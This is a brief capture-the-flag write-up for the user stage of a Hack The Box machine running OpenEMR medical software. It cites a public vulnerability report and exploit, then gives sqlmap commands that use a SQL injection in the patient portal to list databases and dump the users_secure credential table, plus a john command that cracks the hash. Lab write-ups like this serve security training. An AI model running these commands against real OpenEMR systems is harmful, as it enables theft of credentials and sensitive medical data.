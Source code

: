 <img src="./img/openEMR.png"  width="650"/>


# User

OpenEMR is a medical practice management software and there is several security issues([Vulnerability Report](https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf)) and a exploit [OpenEMR < 5.0.1 — (Authenticated) Remote Code Execution](https://www.exploit-db.com/exploits/45161) in exploitdb.


Then I retrieved the credentials using a sqli at http://hms.htb/portal/add_edit_event_user.php?eid=1 (Vulnerability report section  3.2).

- Take db names: `sqlmap -r sqli.req --dbs --batch`
- Take tables name: `sqlmap -r sqli.req -D openemr --tables`
- Dump credentials: `sqlmap -r sqli.req -D openemr -T users_secure --dump`

<img src="./img/userdump.png"  width="700"/>


- crack hash: ` john --wordlist=rockyou.txt db_hash.txt`
<img src="./img/crack.png"  width="650"/>
